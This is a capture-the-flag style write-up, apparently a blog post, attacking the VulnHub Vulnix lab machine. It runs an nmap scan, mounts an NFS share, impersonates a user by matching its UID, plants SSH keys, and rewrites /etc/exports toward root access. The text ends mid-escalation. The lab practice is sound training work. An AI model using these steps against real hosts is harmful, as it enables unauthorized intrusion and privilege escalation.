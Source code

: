 ```yaml
---
layout: default
title : muzec -  HackLAB: Vulnix Writeup
---
```


Here we have a vulnerable Linux host with configuration weaknesses rather than purposely vulnerable software versions (well at the time of release anyway!)

The host is based upon Ubuntu Server 12.04 and is fully patched as of early September 2012. To Grab a Copy Download Here [HackLAB: Vulnix](https://www.vulnhub.com/entry/hacklab-vulnix,48/)

We always Kick Off with Nmap Scan.......

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Thu Jul 15 10:56:44 2021 as: nmap -sC -sV -oA nmap 172.16.139.216
Nmap scan report for 172.16.139.216
Host is up (0.0015s latency).
Not shown: 988 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 10:cd:9e:a0:e4:e0:30:24:3e:bd:67:5f:75:4a:33:bf (DSA)
|   2048 bc:f9:24:07:2f:cb:76:80:0d:27:a6:48:52:0a:24:3a (RSA)
|_  256 4d:bb:4a:c1:18:e8:da:d1:82:6f:58:52:9c:ee:34:5f (ECDSA)
25/tcp   open  smtp       Postfix smtpd
|_smtp-commands: vulnix, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
|_ssl-date: 2021-07-15T12:57:05+00:00; +3h00m01s from scanner time.
79/tcp   open  finger     Linux fingerd
|_finger: No one logged on.\x0D
110/tcp  open  pop3       Dovecot pop3d
|_pop3-capabilities: SASL UIDL PIPELINING STLS CAPA RESP-CODES TOP
|_ssl-date: 2021-07-15T12:57:05+00:00; +3h00m01s from scanner time.
111/tcp  open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      37916/udp6  mountd
|   100005  1,2,3      38356/tcp   mountd
|   100005  1,2,3      41805/tcp6  mountd
|   100005  1,2,3      57305/udp   mountd
|   100021  1,3,4      37121/udp   nlockmgr
|   100021  1,3,4      40483/udp6  nlockmgr
|   100021  1,3,4      44054/tcp6  nlockmgr
|   100021  1,3,4      60768/tcp   nlockmgr
|   100024  1          39121/udp6  status
|   100024  1          39196/tcp6  status
|   100024  1          48005/udp   status
|   100024  1          48763/tcp   status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
143/tcp  open  imap       Dovecot imapd
|_imap-capabilities: more have LOGINDISABLEDA0001 post-login LITERAL+ capabilities STARTTLS LOGIN-REFERRALS listed ID IDLE IMAP4rev1 Pre-login OK ENABLE SASL-IR
|_ssl-date: 2021-07-15T12:57:05+00:00; +3h00m01s from scanner time.
512/tcp  open  exec       netkit-rsh rexecd
513/tcp  open  login
514/tcp  open  tcpwrapped
993/tcp  open  ssl/imaps?
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2021-07-15T12:57:04+00:00; +3h00m00s from scanner time.
995/tcp  open  ssl/pop3s?
| ssl-cert: Subject: commonName=vulnix/organizationName=Dovecot mail server
| Not valid before: 2012-09-02T17:40:22
|_Not valid after:  2022-09-02T17:40:22
|_ssl-date: 2021-07-15T12:57:04+00:00; +3h00m00s from scanner time.
2049/tcp open  nfs_acl    2-3 (RPC #100227)
Service Info: Host:  vulnix; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 3h00m00s, deviation: 0s, median: 3h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul 15 10:57:04 2021 -- 1 IP address (1 host up) scanned in 20.52 seconds
```

So many ports damn and between the box was rated hard i don't why maybe it because of the many ports seriouly to much talking let start our enumeration. So we are having 11 ports on the target the only port that quickly caught my eyes is `2049` which is the NFS port.

NFS port `2049` is a client/server system that allows users to access files across a network and treat them as if they resided in a local file directory. Now exploit it it should be easy.

### NFS SHARE ON PORT 2049 EXPLOIT


```
showmount -e 172.16.139.216 
```

![image](https://user-images.githubusercontent.com/69868171/125794093-6b6f5ca7-0c81-4394-96a5-18dbace73938.png)


Now we know we have a share to mount `/home/vulnix *` now let create a folder in our `tmp` directory.

```
mkdir /tmp/vulnix 
```

![image](https://user-images.githubusercontent.com/69868171/125807410-aea75bb6-eb3d-4825-b8f6-d9227f577154.png)

Now let mount it into the folder we created in `tmp` .

```
mount -v -t  nfs  -o vers=3,proto=tcp,nolock 172.16.139.216:/home/vulnix /tmp/vulnix
```

Note:- You can only mount if you are root.

```
df -k
```
![image](https://user-images.githubusercontent.com/69868171/125807775-a9b396be-8d21-4f00-ab13-c8d2c1190596.png)


Mounted on the share folder but when i try to access i got Permission denied even when using root but since we know the username is `vulnix` i try creating a fake user on my attacking machine.

![image](https://user-images.githubusercontent.com/69868171/125808128-e3cc7bb9-777e-4bd1-8648-936608ad0238.png)


###  FAKE USER WITH THE SAME UID

![image](https://user-images.githubusercontent.com/69868171/125808508-11dc3ce6-b7d8-4a72-9cab-5cf937d2984c.png)

We know user `vulnix` UID is `2008` so it should be easy let hit it.

```
useradd vulnix
usermod -u 2008 vulnix
su vulnix
```

![image](https://user-images.githubusercontent.com/69868171/125809385-f35f7db2-332f-4c5b-be1d-e37d23e26456.png)

Now we have access but seriouly i got nothing not even a SSH private key hahahhahaha why but it cool since we are user `vulnix` let try creating an SSH folder and adding our `authorized_keys` which is the `id_rsa public key` .

![image](https://user-images.githubusercontent.com/69868171/125812270-bab79c5b-35c1-4acd-aac4-5766bdb41c33.png)


Now back to our attacking machine to generate the key.

```
ssh-keygen -t rsa
```

![image](https://user-images.githubusercontent.com/69868171/125812951-04206853-a4a6-4f64-b512-bff66f50156e.png)

If you follow the process on how to generate the SSH private key and public key just change directory to `~/.ssh` .

![image](https://user-images.githubusercontent.com/69868171/125816086-1422c62e-e210-40b9-acca-8c40ba5b9176.png)

Now back to our target.

![image](https://user-images.githubusercontent.com/69868171/125818271-54467ae7-fbf5-4c42-b4f2-b655376da78f.png)

Now back to our Attacking machine let use the private key to SSH with user `vulnix` .

```
chmod 600 id_rsa
ssh -i id_rsa vulnix@172.16.139.216
```

![image](https://user-images.githubusercontent.com/69868171/125819893-eb93e722-cc33-421d-bae7-6d2b10af0c40.png)

We are in checking `sudo -l` .

![image](https://user-images.githubusercontent.com/69868171/125822189-63930078-fe13-4c28-94cb-1185ec612e27.png)

Seems we can use `sudoedit` to modify `/etc/exports` .

```
sudoedit /etc/exports
```

![image](https://user-images.githubusercontent.com/69868171/125823158-1578bcd6-5ae6-4c37-a48d-466847d93054.png)

Interesting since we can read and write to `/home/vulnix` i think it possible to edit it to the root user folder to add our `authorized_keys`  so we can SSH using root let give it a try.

![image](https://user-images.githubusercontent.com/69868171/125824968-2cb2d79e-eae5-46d0-ab70-2d5edbaa8a34.png)


Now we change `/home/vulnix   *(rw,root_squash)`  to `/root   *(rw,no_root_squash)` now let go ahead to confirm it.

![image](https://user-images.githubusercontent.com/69868171/125825239-33bb6965-1e04-4901-9594-ce4c6bc3f72d.png)

Boom now let mount the NFS share.

![image](https://user-images.githubusercontent.com/69868171/125825847-95bd0c95-0a3d-4de7-8a53-205cd45cde17.png)

Mounted 
